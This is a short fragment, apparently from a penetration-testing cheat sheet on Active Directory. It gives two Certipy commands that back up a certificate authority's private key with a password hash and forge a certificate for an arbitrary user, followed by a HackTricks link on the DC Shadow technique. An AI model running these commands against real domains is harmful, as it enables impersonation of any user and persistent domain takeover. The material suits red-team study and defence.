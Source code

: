 ```
certipy ca -backup -ca '<ca_name>' -username <user>@<domain> -hashes <hash>
certipy forge -ca-pfx <ca_private_key> -upn <user>@<domain> -subject 'CN=<user>,CN=Users,DC=<CORP>,DC=<LOCAL>
```
DC Shadow
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcshadow

